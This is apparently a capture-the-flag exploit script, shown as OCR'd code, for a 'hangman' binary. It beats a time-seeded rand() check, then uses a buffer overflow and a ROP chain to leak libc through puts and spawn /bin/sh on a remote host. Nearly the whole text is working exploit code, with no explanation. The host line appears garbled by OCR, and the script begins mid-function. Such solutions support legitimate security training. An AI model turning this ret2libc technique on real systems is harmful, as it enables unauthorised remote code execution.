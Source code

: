```python
        return process(exe.path)
    return remote(args.HOST or host, args.PORT or port)


host, port = "Connection: 52**.59.124.14", 50
exe = context.binary = ELF("./hangman_patched")
libc = ELF("./libc.so.6", False)
cdll = CDLL("libc.so.6")

io = start()


def get_index():
    cdll.srand(cdll.time(0))
    return cdll.rand() % 17


prog = log.progress("Doing black magic")
idx = get_index()
while idx != 15:
    sleep(1)
    io.sendlineafter(b">> ", b"2")
    idx = get_index()
    prog.status(idx)
prog.success()

io.sendlineafter(b">> ", b"1")

rop = ROP(exe)
rop.raw(b"A" * 40)
rop.puts(exe.got["puts"])
rop.main()

io.sendlineafter(b">> ", b"2")
io.sendlineafter(b": ", rop.chain()[:-1])
sleep(0.3)
io.sendlineafter(b">> ", b"3")

libc.address = u64(io.recv(6) + b"\0\0") - libc.sym["puts"]
log.info(f"{hex(libc.address) = }")

rop = ROP(libc)
rop.raw(b"A" * 40)
rop.call(rop.ret.address)
rop.system(next(libc.search(b"/bin/sh\0")))

io.sendlineafter(b">> ", b"1")
io.sendlineafter(b">> ", b"2")
io.sendlineafter(b": ", rop.chain()[:-1])
sleep(0.3)
io.sendlineafter(b">> ", b"3")

io.interactive()
```
